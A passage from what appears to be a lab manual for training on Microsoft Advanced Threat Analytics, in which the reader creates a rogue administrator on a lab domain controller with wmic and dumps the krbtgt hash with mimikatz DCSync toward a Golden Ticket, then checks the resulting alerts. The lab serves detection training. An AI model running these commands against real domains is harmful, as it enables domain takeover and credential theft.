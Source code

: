 7.   Note that you are able to list the content of the default administrative share on the domain controller, which implies that you are operating as a member of the domain local Administrators group. Now that you have administrative privileges to the domain controller, you will create a new user account and add it to the domain local Administrators group. To accomplish this, in the same Command Prompt window, run the following:

```
wmic /node:"lon-dc1" process call create "net user /add user01 Pa55w.rd"
wmic /node:"lon-dc1" process call create "net localgroup Administrators user01 /add"
```

8.   To verify that the commands have been completed successfully, in the same Command Prompt window, run the following:

```
net localgroup administrators /domain
```

9.   Switch to the Internet Explorer window displaying the **Health** page of the ATA Center console. You should see another alert labeled **Remote execution attempt detected** representing the commands you ran from the Command Prompt in this task.

10.   Click the **Remote execution attempt detected** label. This will display details of the event. Examine the displayed information. 
11.   Click the back arrow icon in the upper left corner of Internet Explorer to return to the listing of the alerts.


#### Task 6: Establishing Domain Dominance by compromising KRBTGT credentials and generating Golden Ticket

1.   On LON-CL1, while signed on as **ADATUM\\Ida**, from the same Command Prompt window that you invoked via mimikatz in the previous task, run the following:

```
C:\UTIL\x64\mimikatz.exe "lsadump::dcsync /domain:adatum.com /user:krbtgt" "exit" > C:\UTIL\x64\task6a.txt
```

2.   From the **Administrator: Command Prompt** window, run the following:

```
notepad C:\UTIL\x64\task6a.txt
```

3.   Review the content of the file in Notepad and note the entries corresponding to the **ADATUM\\krbtgt** account. While they do not include the clear text password, they do contain the NTLM hash. Copy the value of the hash into Clipboard. 
4.   Switch to the Internet Explorer window displaying the **Health** page of the ATA Center console. You should see another alert labeled **Malicious replication of directory services** representing the command you ran from the Command Prompt on LON-CL1.
5.   Click the **Malicious replication of directory services** label. This will display details of the event. Examine the displayed information. 
6.   To generate Golden Ticket, you need to identify the SID of the adatum.com domain. You can accomplish this by using the **whomi** command with the **//user** switch. In the same Command Prompt window which you invoked via mimikatz in the previous task, run the following:

```
whoami /user
```
